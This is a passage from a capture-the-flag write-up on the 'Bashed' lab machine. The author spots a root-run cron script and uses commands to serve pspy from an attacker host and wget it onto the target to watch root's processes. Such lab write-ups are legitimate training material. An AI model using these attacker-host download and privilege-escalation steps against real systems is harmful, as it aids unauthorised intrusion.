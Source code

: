 # Root 

I noticed `/scripts` in the root directory of the file structure, this is not a normal folder

```
scriptmanager@bashed:/var/www/html/dev$ ls /
ls /
bin   etc         lib         media  proc  sbin     sys  var
boot  home        lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv      usr
```

The script looks like it just will open up a file and put some text in it.
```
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
```

I had a hunch that root might be running this script every so often. I downloaded [pspy](https://github.com/DominicBreuker/pspy) a process sniffer to see what root is doing. 

I hosted the file on my kali machine with a python3 webserver
```
┌──(root㉿kali)-[/opt/linPriv]
└─# python3 -m http.server 80      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.68 - - [30/Sep/2022 17:34:25] "GET /pspy64 HTTP/1.1" 200 -
```

Then downloaded it into `/tmp` on the host using `wget`

```
scriptmanager@bashed:/tmp$ wget 10.10.14.8/pspy64
wget 10.10.14.8/pspy64
--2022-10-02 20:45:12--  http://10.10.14.8/pspy64
Connecting to 10.10.14.8:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'

pspy64              100%[===================>]   2.94M  1.76MB/s    in 1.7s    

2022-10-02 20:45:14 (1.76 MB/s) - 'pspy64' saved [3078592/3078592]
scriptmanager@bashed:/tmp$ chmod +x pspy64
```

Running it shows that root runs the test.py every so often
```
scriptmanager@bashed:/tmp$ ./pspy64
./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
```
